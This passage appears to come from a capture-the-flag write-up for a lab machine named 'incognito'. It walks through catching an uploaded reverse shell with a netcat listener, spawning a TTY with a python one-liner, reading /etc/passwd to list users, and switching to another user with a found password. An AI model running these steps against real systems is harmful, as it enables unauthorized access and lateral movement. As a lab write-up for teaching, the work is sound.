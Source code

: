 Our reverse shell has been uploaded. Let's open a listener (`rlwrap nc -lvnp 4444`) and call the shell from the web service. After you opened your listener, browse the following url to call the shell:

~~~
http://<MACHINE IP>:8080/dev/<REVERSE SHELL NAME>
~~~

After doing so, you should get a shell on your listener as `www-data`. The first thing I did was spawning a TTY shell using a python one-liner:

Python code to spawn a TTY shell:

~~~
$ python3 -c "import pty;pty.spawn('/bin/bash')"
~~~

On the target machine:

~~~
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.**.**] from (UNKNOWN) [10.10.64.68] 40462
Linux incognito 4.15.0-143-generic #147-Ubuntu SMP Wed Apr 14 16:10:11 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux

[SNIP]

uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python3
/usr/bin/python3
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@incognito:/$
~~~

## www-data -> ArthurMorgan (lateral move)

First let's check the users with console on the machine:

~~~
www-data@incognito:/$ grep -e \/sh -e bash /etc/passwd
root:x:0:0:root:/root:/bin/bash
ArthurMorgan:x:1001:1002::/home/ArthurMorgan:/bin/sh
marston:x:1002:1003::/home/marston:/bin/bash
~~~

So we have two users on the machine: `ArthurMorgan` and `marston`. We have a password for user `ArthurMorgan`, so let's test if it is valid:

~~~
www-data@incognito:/$ su ArthurMorgan
Password: [REDACTED]
$ whoami
ArthurMorgan
~~~
